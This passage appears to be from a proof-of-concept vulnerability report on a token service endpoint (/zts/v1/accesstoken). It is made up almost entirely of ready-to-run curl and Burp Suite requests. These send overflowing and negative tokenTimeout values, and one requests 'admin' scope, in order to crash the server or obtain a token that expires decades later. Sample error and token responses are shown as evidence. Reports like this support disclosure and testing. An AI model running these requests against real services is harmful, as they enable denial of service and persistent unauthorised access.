 #### **Step 2: Craft Exploit Requests**  
**Case 1: Denial-of-Service (Overflow)**  
```bash
curl -X POST 'https://localhost:4443/zts/v1/accesstoken' \
  -H 'Content-Type: application/json' \
  --cert service_cert.pem --key service_key.pem \
  -d '{
    "grantType": "client_credentials",
    "scope": "test-domain:test-service",
    "tokenTimeout": 2147483648
  }'
```

**Case 2: Token Expiration Manipulation**  
```bash
curl -X POST 'https://localhost:4443/zts/v1/accesstoken' \
  -H 'Content-Type: application/json' \
  --cert service_cert.pem --key service_key.pem \
  -d '{
    "grantType": "client_credentials",
    "scope": "test-domain:test-service",
    "tokenTimeout": -1
  }'
```

### Observe Results  
**Overflow Response (HTTP 500):**  
```json
{
  "code": 500,
  "message": "java.lang.ArithmeticException: integer overflow",
  "requestId": "a1b2c3d4"
}
```

**Token Manipulation Evidence:**  
```json
{
  "access_token": "eyJhbGciOi...",
  "token_type": "Bearer",
  "expires_in": 2147483647 // 68 years!
}
```

## Proof of Concept (Burp Suite)

### **Malicious Request:**  
```http
POST /zts/v1/accesstoken HTTP/1.1
Host: localhost:4443
Content-Type: application/json
Content-Length: 112
User-Agent: Burp-Suite Exploit

{
  "grantType": "client_credentials",
  "scope": "admin",
  "tokenTimeout": 2147483648
}
```
